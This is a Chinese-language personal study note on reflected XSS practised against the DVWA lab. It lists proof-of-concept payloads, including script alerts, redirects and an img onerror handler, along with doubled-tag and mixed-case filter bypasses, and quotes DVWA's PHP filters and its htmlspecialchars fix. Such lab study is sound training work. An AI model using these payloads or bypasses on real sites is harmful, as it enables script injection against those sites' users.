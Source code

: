 +++
date = "2020-02-05T19:36:26+08:00"
categories = ["渗透测试"]
tags = ["OWS-TOP10","xss","笔记"]


title = "xss学习笔记——反射型"
description = "如何发现，并验证xss跨站脚本漏洞的存在"
images = []

+++

# 环境

- 靶机：dvwa
- 测试工具：BurpSuit，HackBar, Netcat

**XSS 漏洞产生的原因，和 SQL 注入有“异曲同工之妙”，所以 XSS 又称作“ HTML 注入”，都是没有对用户输入的内容，进行检查过滤而导致站点被恶意利用，或者服务器数据被窃取，那么如何发现 XSS 漏洞的存在呢**

## 一、验证思路

① 输入的内容提交后，查找当前页面中，有无显示输入的内容<br>
② 输入漏洞验证代码，看是否有效

## 二、漏洞验证Poc  

利用 HTML 语言中的几个常见的标签，以及 javascript，可以实现验证漏洞是否存在</br>
**例子中跳转的网页，我用的自己的路由器后台管理地址。**

```HTML
1 <script>alert('xss')</script>
2 <script>window.location="http://192.168.31.1"</script>
3 <script>window.open('http://192.168.31.1')</script>
3 <a href="http://192.168.31.1">click here</a>
4 <a href="" onclick=alert('xss')>click here</a>
5 <img src="http://192.168.31.1/a.img" onerror=alert('xss')>
```

当然，不是什么时候都会有效果</br>

随着靶场等级的提高，对用户的输入内容就会愈加严格检查和过滤</br>

思路要骚，才能绕过限制:D

### ① 靶场等级：low

没有任何过滤，输入的所有poc均生效

```php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

```

### ② 靶场等级：medl

匹配字符串非法字符，并替换为空字符串</br>

```php
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] ); 
```

Ⅰ. 双写绕过

```javascript
   <sc<script>ript>alert('xss')</script>
```

Ⅱ. 大、小写混写绕过

```javascript
   <ScrIPT>alert('xss')</script>
```

Ⅲ. 其他标签、事件绕过


### ③ 靶场等级：high

```php
// Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] ); 
```

加强了过滤规则，采用正则替换</br>

上一个方法中的双写、大小写都失效了

还好没有过滤其他的标签，和上一个一样，可以用其他标签触发XSS

### ④ 靶场等级：impossible

加入了 **user_token** 验证，和 **htmlspecialchars()** 函数对输入的字符串进行 “无害化处理”</br>

这个例子中，各种姿势也没用了T_T

```php
<?php
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );
    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
// Generate Anti-CSRF token
generateSessionToken();
?> 
```

# 总结

通过查阅freebuff上大佬的解释

> 可以看到，通过使用htmlspecialchars函数，解决了XSS，但是要注意的是，如果htmlspecialchars函数使用不当，攻击者就可以通过编码的方式绕过函数进行XSS注入，尤其是DOM型的XSS。

学到的三个防御xss的函数

- str_replace()
- preg_replace()
- htmlspecialchars()

反射型 xss，各种钓鱼链接都会利用网站存在 xss 结合钓鱼页面，骗取点击，获取受害者的登陆 cookie，或者是账号密码等信息</br>

接下来就是如何利用xss ，获取用户登陆 cookie，以及实现键盘记录器了：D

- [参考文章来自Freebuf](https://www.freebuf.com/articles/web/123779.html)
